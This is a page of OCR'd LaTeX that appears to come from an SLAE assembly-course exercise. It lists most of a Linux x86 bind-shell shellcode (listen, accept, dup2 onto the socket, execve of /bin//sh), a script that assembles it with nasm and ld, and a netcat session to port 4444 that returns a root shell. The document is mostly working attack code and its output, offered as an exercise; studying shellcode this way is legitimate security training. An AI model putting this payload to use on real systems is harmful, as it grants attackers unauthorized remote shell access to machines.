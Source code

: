 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
    ;; Place listen's arguments on the stack
    xor ecx, ecx
    push ecx ; backlog we set to zero
    push edi ; push the socket file descriptor
    mov ecx, esp ; place a pointer to the args in ecx
    int 0x80 ; call sys_listen

    ;; Call accept
    xor eax, eax
    mov eax, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov ebx, 0x5 ; sys_accept syscall number

    ;; Place accept's arguments on the stack
    ;; We don't need a peer socket???... so we
    ;; use nulls for addrlen and sockaddr struct
    xor ecx, ecx
    push ecx ; Push NULL (0x00000000) for addrlen
    push ecx ; Push NULL (0x00000000) for sockaddr struct
    push edi ; Push the listening sockets file descriptor
    mov ecx, esp ; place a pointer to the args in ecx
    int 0x80 ; call sys_accept

    ;; Save the returned connection socket file descriptor
    xor ebx, ebx
    mov ebx, eax

    ;; Call dup2 for stdin, stdout, and stderr in a loop
    xor ecx, ecx
    mov cl, 0x2 ;loop counter

  dup2:
    mov al, 0x3f ;dup2
    int 0x80
    dec ecx
    jns dup2

    ;; Call execve
    xor eax, eax
    mov al, 0xb ;execve
    xor ebx, ebx
    push ebx
    push 0x68732f2f ;"sh//"
    push 0x6e69622f ;"nib/"
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
\end{verbatim}

When we compile the above shellcode using the compile.sh script below:

\begin{verbatim}
#!/bin/bash
echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
\end{verbatim}

\verb,root@blahblah:~/shared/SLAE/slae/exercise1# ./compile.sh bindshellasm,

And run the shellcode using:

\verb,root@blahblah:~/shared/SLAE/slae/exercise1# ./bindshellasm,

And connect using netcat:

\begin{verbatim}
#!/bin/bash
root@blahblah:~/shared/SLAE/slae/exercise1# nc -nv 127.0.0.1 4444
(UNKNOWN) [127.0.0.1] 4444 (?) open
id
uid=0(root) gid=0(root) groups=0(root)
\end{verbatim}
\end{document}

